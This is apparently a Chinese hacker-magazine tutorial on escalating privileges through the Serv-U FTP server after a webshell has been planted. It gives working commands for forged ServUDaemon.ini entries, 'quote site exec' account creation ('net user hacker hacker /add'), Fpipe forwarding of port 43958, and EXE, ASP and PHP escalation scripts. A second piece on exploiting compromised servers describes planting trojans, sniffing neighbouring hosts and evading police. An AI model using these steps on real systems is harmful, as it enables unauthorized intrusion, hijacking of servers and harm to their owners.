

## 菜鸟学堂

为了把 ServUDaemon.ini 内的内容改成我们想要的，就需要伪造一个出来。最好先在本地电脑上安装一个 Serv-U 程序，安装过程略过（很简单，一路默认即可）。随意建立一个测试用的 FTP 站，建立一个 FTP 用户，在“账号”选项中将特权设为“系统管理员”，主目录设为“C:\”，切换到“目录访问”选项中将右侧的权限都勾选上，主要用到的就是“执行”这个权限（图4），最后点击“应用”进行参数保存，就可以返回程序的安装目录查看 ServUDaemon.ini 的内容了（图5）。

执行 `cd winnt`、`cd system32` 命令切换到系统的 SYSTEM32 目录，然后执行 `quote site exec "net user hacker hacker /add"`、`quote site exec "net localgroup administrators hacker /add"` 命令即可向服务器添加一个管理员账号了。











参数伪造完毕后，就可以打开 WebShell 访问服务器 Serv-U 的安装目录（图6），点击 WebShell 的“编辑”按钮进入文本编辑状态，将我们伪造的参数添加进去。为了让大家更好地看清楚需要添加哪些参数进去，我将添加前和添加后的图贴出来进行对照（图7、图8）。这样修改后，Serv-U 就修改了管理参数，添加了你设置的 Serv-U 管理员账号。

我们连接服务器的 21 端口，在 CMD 中输入 `FTP 192.168.10.200` 即可连接到 IP 为 192.168.10.200 的 21 端口上（图9），接着 Serv-U 要求输入账号密码，将刚才添加的 Serv-U 管理员密码输入，Serv-U 返回了“230 User logged in, proced.”表示已经通过验证。由于用户的主目录设置为 C 盘根目录，如果服务器是 Win2003 的话需要执行 `cd windows`、`cd system32` 命令切换到系统的 SYSTEM32 目录；如果服务器是 Win2000 的话需要执行 `cd winnt`、`cd system32` 命令切换到系统的 SYSTEM32 目录，然后执行 `quote site exec "net user hacker hacker /add"`、`quote site exec "net localgroup administrators hacker /add"` 命令即可向服务器添加一个管理员账号。


如果不清楚终端服务开放在哪个端口的话，还可以执行 `quote site exec "netstat -an >>c:\1.txt"` 命令，将当前服务器中开放的端口全部导出到 C 盘的 `1.txt` 文件中，然后使用 WebShell 进行查看，最后使用远程桌面程序连接服务器即可。

……成功提权（图10）。



命令执行后便可以打开 Serv-U 的管理控制端，右键点击“Serv-U 服务器”，选择“新建服务器”（图13），然后一步步地按照 Serv-U 的提示信息填写相关的 IP、端口、管理账号、口令等信息（图14）。添加完毕后，双击这个添加的 Serv-U 服务器便可进行管理连接。这时候我们的端口转向工具就开始工作了，它会将从外部 1234 端口上接收到的数据原封不动地转发到绑定在“127.0.0.1”网络接口上的 43958 端口上，并且也会将返回的数据按照这个“管道”原封不动地返回。



#### 三、43958 端口转向提权

如果你安装了 Serv-U 的话，在 CMD 中输入 `netstat -an`，查看里面是否在本机的“127.0.0.1”网络接口上监听了 43958 端口（图11）。那么这个 43958 端口是由哪个进程来监听的呢？它是由 Serv-U 的服务进程（ServUDaemon.exe）监听的，它有两个主要功能：1、为 FTP 用户提供文件传输服务；2、为 Serv-U 管理员提供管理接口（需要管理账号口令验证，但是账号口令固定）。






这样看来只要能从外部连接到这个 43958 端口，就可以提权了。但是它被绑定了服务器本机“127.0.0.1”这个网络接口上，除服务器本机外无法进行连接，怎么办呢？我们可以使用端口转向工具把绑定在“127.0.0.1”网络接口上的 43958 端口映射出来，转发到一个外部可以连接的端口上。用到的工具就是 Fpipe，它是一个源端口重定向器，可以使用你选择的源端口建立一个 TCP 或 UDP 流，可以用于穿越那些允许端口连接的防火墙从而连入内网时。

首先将 Fpipe 通过 WebShell 上传到随便一个可以执行的目录，然后转到 WebShell 的“WScript.Shell 命令行操作”功能来执行命令，在“命令/参数”中输入 `d:\www\web\fpipe.exe -v -l 1234 -r 43958 127.0.0.1` 命令（图12），然后单击“运行”按钮。这条命令的意思是将本机绑定在“127.0.0.1”网络接口上的 43958 端口转发到外部可以连接的 1234 端口上，并且返回详细连接信息。


这时我们会发现可以直接控制对方的 Serv-U 了，修改设置、添加删除账号等等，我们当然是添加一个 Serv-U 管理员了（图15），并赋予它执行权限（图16）。再使用 CMD 下的 FTP 工具连接到服务器执行命令即可。

#### 四、执行 EXE 提权

使用端口转向工具的时候有个致命的缺点，就是如果服务器上开启了防火墙的话，就不能私自在外部网络接口上开放一个端口等待我们的连接。那么怎么来解决这个问题呢？我们仔细想一下，将绑定在服务器本机“127.0.0.1”网络接口上的 43958 端口映射出来的目的是向它发送管理数据。既然不能转发出来从外面发送数据，那么为什么不能开发一个专门向服务器本机“127.0.0.1”网络接口上的 43958 端口发送管理……理数据的程序呢？想法不错，但是需要分析 Serv-U 管理客户端到底发送了什么管理数据。利用数据监听工具“WinSock Expert”可以轻松监听 Serv-U 管理客户端向 Serv-U 服务进程发送了哪些数据，然后从中分析出哪些是用来管理用户的数据。所以 EXE 提权就诞生了，牛人们编写了 N 多这种功能的程序。起初程序中绑定了连接端口（43958）、添加的管理员账号、口令等信息，后来进化到可以将连接端口（43958）、添加的管理员账号、口令等信息作为参数，再后来进化到在添加管理员账号后自动连接本机 FTP 执行提权命令。

Serv-U 提权综合工具就是这样一个不错的工具（图17），它可以自定义连接端口、连接账号、口令、执行命令等信息。打开工具，设置完这些信息后点击“生成”，即可在程序目录中生成一个名为“Servu.exe”的 CMD 程序（图18）。将该程序通过 WebShell 上传到任意一个可以执行命令的目录中，转到 WebShell 的“WScript.Shell 命令行操作”功能来执行命令。

在“命令/参数”中输入 `d:\www\web\servu.exe` 命令（图19），然后单击“运行”按钮，就会将该程序的使用说明打印出来。直接将需要运行的命令当作参数并用双引号包含起来即可。比如想添加一个账号和口令都为 hacker 的 Windows 账号（图20），就输入 `d:\www\web\servu.exe "net user hacker hacker /add"`，然后单击“运行”按钮，稍等一会儿即可看到程序返回的数据，查看命令是否成功执行。

生成的这个小程序的工作原理是：使用生成时配置的默认管理员账号、口令信息，连接到绑定在服务器本机“127.0.0.1”网络接口上的 43958 端口，添加一个临时 FTP 域（防止影响原来的 FTP 域），然后发送分析出的 Serv-U 管理客户端添加用户数据（添加一个账号和密码均为 allife 的 Serv-U 管理员账号）。随后程序再使用账号密码均为 allife 的 FTP 用户连接 FTP 端口（一般为 21 端口），执行所调程序参数中的命令信息，最后删除添加的临时域。然后再利用这个程序将名为 hacker 的用户提升到 Windows 系统管理员，即可进行 3389 连接等操作。

#### 五、执行脚本提权

在进行 EXE 提权时也有一个致命缺点：如果服务器不允许执行 EXE 文件，那么就根本无法连接 43958 端口发送管理数据。那该怎么办呢？回头想想，EXE 程序执行的目的是什么？只是向绑定在服务器本机“127.0.0.1”网络接口上的 43958 端口发送管理数据而已。那么还有什么可以实现这个功能呢？也许你不会相信，其实脚本也是可以发送数据的，比如很多网站的采集功能等。

如果只使用脚本进行 Serv-U 提权，是不是感觉非常简单？而且目前流行的脚本类型基本都支持发送数据，比如 ASP、ASPX、PHP、CGI、PL 等等。下面介绍第一款 ASP 类提权脚本：Serv-U 2 admin。

首先使用 WebShell 将提权脚本上传到一个可以执行 ASP 文件的目录，然后在 IE 中访问它，便可得到运行主界面（图21）。界面很简洁，只需要输入默认管理员账号和口令、绑定在服务端的“管理端口”即可。这个脚本有两个功能：

- 添加账号功能：自动添加一个 Serv-U 管理员并给予执行权限。
- 删除账号功能：删除添加的账号，主要用于清理尾巴。

选择“Add User”后，点击“Run”运行，脚本添加完毕后会返回信息（图22），表示已经添加了一个名为 lake、密码为 admin123 的 Serv-U 管理员账号。然后就可以使用 CMD 下的 FTP 工具连接上去执行你想执行的命令，最后别忘了清理尾巴。

再看第二款 ASP 类提权脚本：Serv-U 提升权限 ASP 版。首先使用 WebShell 将提权脚本上传到一个可以执行 ASP 文件的目录，然后在 IE 中访问它，便可得到运行主界面（图23）。这个脚本和前者最大的区别在功能上：这个工具除了添加 Serv-U 管理员外，还可以自动执行 CMD 命令，并且可以自定义服务器系统路径信息。

在脚本中输入默认管理员账号和密码、管理端口、系统路径、想执行的 CMD 命令等信息，点击“提交”按钮，脚本会一步步执行操作并显示过程，最后还会提示是否成功执行了你想执行的 CMD 命令（图24）。

目前 ASPX 脚本已经比较流行，而且默认执行权限要比 ASP 高一些。介绍完 ASP 类提权脚本后，再来看这款 ASPX 提权脚本：Serv-U 2 admin。首先使用 WebShell 将提权脚本上传到一个可以执行 ASPX 文件的目录，然后在 IE 中访问它，便可得到运行主界面（图25）。这款脚本的作者也是第一款 ASP 提权脚本的作者，所以界面差不多，不过功能上不太一样：这款 ASPX 提权脚本可以自动执行 CMD 命令，简单省事。

在脚本中输入默认管理员账号和密码、管理端口、想执行的 CMD 命令等信息，点击“Start”按钮即可执行，脚本会自动返回执行结果（图26）。

当然在 PHP 平台下，提权更是相当容易，而且最早公布的就是 PHP 版本的 Serv-U 提权脚本。第一款要介绍的 PHP 提权脚本：Serv-U 本地提升权限。首先使用 WebShell 将提权脚本上传到一个可以执行 PHP 文件的目录，然后在 IE 中访问它，便可得到运行主界面（图27）。

这款提权脚本分为两个功能部分：

- 添加 Serv-U 用户部分：只需要在脚本中输入主机 IP、主机 FTP 端口、主机 FTP 管理端口、主机 FTP 管理员用户、主机 FTP 管理员密码、添加的用户名、密码、用户主目录等信息，然后点击“添加”按钮即可，脚本会自动返回得到的信息（图28）。
- 执行命令部分（图29）：只需要在脚本中输入主机 FTP 端口、用户名、密码、系统路径、执行命令等信息，然后点击“执行”按钮，脚本会自动返回得到的信息（图30）。

其中系统路径是服务器的系统路径，如果为 2000 系统，一般为 `C:\winnt\system32`；如果为 2003 系统，一般为 `C:\windows\system32`。

首先使用 WebShell 将提权脚本上传到一个可以执行 PHP 文件的目录，然后在 IE 中访问它，切换到“Serv-U Exp”功能模块，便可以看到运行主界面（图31）。在脚本中输入“LocalPort（本地端口）”、“LocalUser（默认管理账号）”、“LocalPass（默认管理密码）”、“Command（想执行的 CMD 命令）”等信息，然后点击“执行”按钮即可，脚本也会返回得到的信息（图31）。如果最后返回了“200 EXEC command successful (TID=33)”，那么就代表命令已经成功执行（图32）。

第二款 PHP 提权脚本是包含在 PHPSPY 这个 WebShell 里面的，首先使用 WebShell 将 PHPSPY 上传到一个可以执行 PHP 文件的目录……

这么多种 Serv-U 提权方法已经传授给大家了，不过可不要死用。如果服务器没有开放 3389 服务，那么就可以添加 FTP 账号，然后使用 FlashFXP 将木马上传到服务器中，再执行木马即可。也可以上传一个能够开启 3389 的工具，在提权时加上工具参数就可以打开服务器的 3389 服务，然后再添加 Windows 系统管理员并登录即可。所以需要大家活学活用、灵活运用，祝大家在漫漫学黑路上走得更稳更快。

> （本文所涉及到的 FPipe 端口重定向工具、各种 Serv-U 提权脚本、Serv-U 提权综合工具、海阳 2006、ServU 已经收录到光盘中）

### 什么是 VPN？

VPN 也就是虚拟专用网，被定义为通过一个公用网络（通常是因特网）建立一个临时的、安全的连接，是一条穿过混乱公用网络的安全、稳定隧道。虚拟专用网是对企业内部网的扩展，虚拟专用网可以帮助远程用户、公司分支机构、商业伙伴以及供应商同公司的内部网建立可信的安全连接，并保证数据的安全传输。通过将数据流转移到低成本网络上，一个企业的虚拟专用网解决方案将大幅减少用户花费在城域网和远程网络连接上的费用。同时，这将简化网络设计和管理，加速连接新的用户和网站。另外，虚拟专用网还可以保护现有的网络投资。随着用户的商业服务不断发展，企业的虚拟专用网解决方案可以使用户将精力集中到自己的生意上，而不是网络上。虚拟专用网可用于不断增长的移动用户的全球因特网接入，以实现安全连接；可用于实现企业网范围内安全通信的虚拟专用线路；用于经济有效地连接到商业伙伴和用户的安全外联网虚拟专用网。

### 菜鸟也能行：肉鸡保卫战（上）

周伟杰（阿布）

话说可爱的燕妹妹回到家中后魂不守舍，整天茶不思饭不想，连燕妹妹也不知道自己到底是怎么了，有时候一个人坐在电视机前傻傻发呆。“天天下雨真烦人，天天对着这个破电视，也不知道布哥在干啥，那小子不知道又在哪个网站了，也不陪我聊天。”

就在这时手机滴滴地响了起来，“嗨！真是说曹操曹操到，还算识相。”燕妹妹便和阿布互发短信聊了起来。当阿布问燕妹妹是否复习所学黑客技术时，燕妹妹回复道：“当然有了呀，没事的时候就翻翻我记录的笔记，看看以前入侵时保留的动画、漏洞新闻和新马。”阿布看到燕妹妹这么用功，不得不连声叫“不错，妹妹很乖乖咯！多给自己提问题，知识是成倍增长的。”燕妹妹听到这里不禁笑了起来，惹得一旁的老妈惊诧不已。

燕妹妹突然想起一事不是很清楚，便开始发问：“布哥，在你英明的领导下我也入侵了几台服务器，但是使用 3389 成功登录到服务器后还需要做什么呢？”阿布被突如其来的问题弄得有些不知如何回答，自己想了一会儿才回答道：“这个问题不是很好回答，总的来说可以分为三个部分：第一是先要了解这台服务器；其次要留好后门方便以后控制；第三就是清理好尾巴防止被发现。”

燕妹妹若有所思道：“哎，似乎是这样哦！可是要从哪些方面来了解这台服务器呢？”阿布脑筋转了一圈回答道：“这个不是一两句话就能说明白的，我给你详细介绍一下吧。”

通过前面几期关于提权操作的讲解，大家肯定拿下了不少服务器吧！提权成功后就获得了服务器的管理员或者系统权限，我们就可以随意执行任何命令了。当然也可以把服务器的终端（3389）服务打开，然后使用远程桌面连接服务器，输入提权后添加的账号或者使用管理员账号便可以登录远程服务器，我们就等于直接坐在了服务器面前指挥它，跟操作本地计算机是一样一样的。

相信许多小菜也会问和燕妹妹一样的问题：“进入服务器后，我还要做什么呢？”首先，服务器目前已经在你的控制之下了，那就好好利用服务器资源吧。如果服务器硬盘空间特别大，我们就可以用作 FTP 空间，存放黑客工具、教程等资料；如果是一台 Web 服务器，里面放置了很多网站，我们就可以用来挂马、刷流量等；如果服务器网络带宽非常大，而且管理层也不经常来管理维护，我们就可以将此服务器制作成一台 VPN 服务器，以后踩点、黑站都可以登录 VPN 后再进行操作，免得被警察叔叔请去喝茶；如果和该服务器同一个网段内有不错的网站或者服务器存在，那么就可以使用 CAIN 等 ARP 嗅探工具入侵同网段内其它服务器，扩大成果。但如果我们根本不了解它的话，又怎么能够利用它呢？所以我们控制服务器后的第一件事就是仔细了解它的任何信息，包括它的硬件、软件、设置、环境等。下面就听我慢慢讲解服务器的故事吧！

#### 一、服务器外围信息

